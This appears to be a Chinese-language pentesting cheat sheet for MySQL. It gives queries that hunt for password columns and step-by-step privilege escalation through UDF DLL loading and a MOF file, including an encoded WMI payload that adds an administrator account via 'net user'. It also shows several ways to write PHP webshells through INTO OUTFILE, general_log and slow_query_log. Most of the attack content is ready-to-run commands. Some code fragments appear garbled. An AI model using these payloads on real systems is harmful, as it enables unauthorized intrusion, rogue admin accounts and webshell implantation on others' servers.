 [toc]

# MySql

## 基础语句

### 数据连接情况

```sql
show processlist;
```

### xx 库中所有字段名带 pass|pwd 的表

```sql
select distinct table_name from information_schema.columns where table_schema="xx" and column_name like "%pass%" or column_name like "%pwd%"
```

#### 获取正在执行的sql语句

使用information.schema.processlist 表读取正在执行的sql语句，从而得到表名与列名.


## 提权
### UDF(User Defined Function)提权

**利用条件:**

1. secure-file-priv 不为NULL,查询语句 `show global variables like '%secure%';存在\lib\plugin目录.
2. mysql高权运行.

**步骤:**

1. 查询secure-file-priv是否为null,`show global variables like '%secure%';`

2. 确定mysql版本来确定要使用的udf版本(x64,x86) `show variables like "%version%";`

3. ```mysql
   use mysql;
   set @my_udf_a=concat('',dll的16进制);//将dll以16进制赋值给一个变量
   create table my_udf_data(data LONGBLOB);//创建表
   insert into my_udf_data values("");update my_udf_data set data = @my_udf_a;//将存储dll的的变量插入表中
   show variables like '%plugin%';//查看导出目录
   select data from my_udf_data into DUMPFILE '%plugin%/udftest.dll';//导出dll
   create function sys_eval returns string soname 'udftest.dll';//从dll中创建函数
   select sys_eval('whoami');//
   ```

#### Tips

1. 4.1以前随意注册,无限制.

2. 在4.1到5之后创建函数时,不能包含`\`和`/`.所以需要释放到system32目录中.

3. 5.1之后需要导出到指定的插件目录,即`%plugin%`变量的位置,默认文件夹不存在,需要手动创建(利用NTFS流).

   

### MOF提权

> mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。有了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

**利用条件:**

1. secure-file-priv 为空.
2. mysql高权运行.

#### 步骤

1. 
   创建mof文件


   ```vb
   pace("\.rootsubscription")
   
   instance of **EventFilter as $EventFilter{    EventNamespace = "RootCimv2";    Name  = "filtP2";    Query = "Select * From **InstanceModificationEvent "
               "Where TargetInstance Isa "Win32_LocalTime" "
               "And TargetInstance.Second = 5";
       QueryLanguage = "WQL";
   };
   
   instance of ActiveScriptEventConsumer as $Consumer
   {
       Name = "consPCSV2";
       ScriptingEngine = "JScript";
       ScriptText =
       "var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user admin admin /add")";
   };
   
   instance of __FilterToConsumerBinding
   {
       Consumer   = $Consumer;
       Filter = $EventFilter;
   };
   ```

2. 手动上传到目标导入`select load_file('mof file') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof`到Mof目录.
   或者使用select 写入

   ```mysql
   select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile 'c:/Windows/system32/wbem/mof/nullevt.mof';
   ```

## Getshell

#### 直接写文件Getwebshell

**利用条件:**

- secure-file-priv参数为空或者为网站根路径
- 知道网站的绝对路径

**步骤:**

```mysql
select 'phpinfo();' into outfile 'c:/www/webshell.php'
```

#### 日志general_log Getshell

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global general_log='on';//开启日志记录
SET global general_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT 'phpinfo();';//该语句会被记录到日志中从而写入webshell
```

#### 慢日志slow_query_logGetshell

MySQL的慢查询日志是MySQL提供的一种日志记录,它用来记录在MySQL中响应时间超过阀值的语句,具体指运行时间超过long_query_time值的SQL,则会被记录到慢查询日志中.long_query_time的默认值为10,意思是运行10S以上的语句.默认情况下,Mysql数据库并不启动慢查询日志,需要我们手动来设置这个参数.

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global slow_query_log=1;//开启慢查询
set global slow_query_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT "phpinfo();"  or sleep(11);//使用sleep(11)使该语句记录到日志
```

## mysql8

### 新增的表
#### information_schema.TABLESPACES_EXTENSIONS
它直接存储了数据库和数据表
### 新增功能
#### table

https://mp.weixin.qq.com/s/R2Sud4uMSTV9egt0Lub36Q

## 参考

https://mp.weixin.qq.com/s/VgXOXVl-Bx2Vi8BYxdx3CA